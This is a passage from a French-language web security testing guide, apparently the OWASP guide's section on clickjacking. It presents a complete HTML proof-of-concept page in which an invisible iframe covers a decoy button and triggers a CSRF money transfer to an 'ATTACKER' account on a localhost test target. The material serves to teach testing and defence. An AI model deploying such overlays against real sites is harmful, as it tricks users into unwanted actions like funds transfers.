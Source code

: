 ![Exemple de détournement de clic Malicious Page 2](images/Clickjacking_exemple_malicious_page_2.png)\
*Figure 4.11.9-5 : Exemple de détournement de clic Page 2 malveillante*

Le code de clickjacking pour créer cette page est présenté ci-dessous :

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```
